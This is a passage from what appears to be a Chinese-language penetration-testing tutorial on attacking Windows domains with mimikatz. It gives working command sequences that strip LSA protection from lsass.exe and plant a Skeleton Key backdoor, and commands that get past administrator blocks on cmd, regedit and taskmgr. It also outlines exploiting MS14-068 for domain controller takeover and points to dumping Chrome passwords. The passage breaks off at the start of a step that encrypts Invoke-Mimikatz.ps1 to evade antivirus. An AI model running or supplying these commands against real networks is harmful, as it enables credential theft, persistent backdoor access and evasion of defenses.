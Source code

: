 微软在 2014 年 3 月 12 日添加了 LSA 爆护策略，用来防止对进程 lsass.exe 的代码注入。如果直接尝试添加 skelenton key 会失败。

![](http://www.0-sec.org/%E5%9F%9F%E6%B8%97%E9%80%8F/img/70.png)

```yaml
#适用系统
windows 8.1
windows server 2012 及以上
```

当然 mimikatz 依旧可以绕过，该功能需要导入mimidrv.sys文件，导入命令如下:

```bash
privilege::debug
!+
!processprotect /process:lsass.exe /remove 
misc::skeleton
```

#### 5.4 MS14-068

当我们拿到了一个普通域成员的账号后，想继续对该域进行渗透，拿到域控服务器权限。如果域控服务器存在 MS14_068 漏洞，并且未打补丁，那么我们就可以利用 MS14_068 快速获得域控服务器权限。

MS14-068编号 CVE-2014-6324，补丁为 3011780 ，如果自检可在域控制器上使用命令检测。

```bash
systeminfo |find "3011780"
#为空说明该服务器存在MS14-068漏洞
```

操作链接：MS14-068复现(CVE-2014-6324)：https://www.cnblogs.com/-mo-/p/11890539.html

### 0x06 其他

#### 6.1 使用mimikatz导出chrome中的密码

详情请见：[链接](https://mp.weixin.qq.com/s?__biz=MzIzOTg0NjYzNg==&mid=2247483949&idx=1&sn=db4853c88e4bf0a550c095d9017a363c&chksm=e92297aede551eb815a604ba944c4666b260c5bfe044e1b3a60946b586fd5679e29db0adf18d&mpshare=1&scene=23&srcid=&sharer_sharetime=1582350092849&sharer_shareid=d32981e13d51bf06188894426d2a54e5#rd)

#### 6.2 隐藏功能

管理员常常会禁用一些重要程序的运行，比如cmd、regedit、taskmgr，此时不方便渗透的进一步进行，这里除了去改回原来的配置，还可以借助mimikatz的一些功能：

```cpp
privilege::debug
misc::cmd
misc::regedit
misc::taskmgr
```

#### 6.3 免杀处理

Powersploit中提供的很多工具都是做过加密处理的，同时也提供了一些用来加密处理的脚本，Out-EncryptedScript就是其中之一。

首先在本地对Invoke-Mimikatz.ps1进行加密处理：
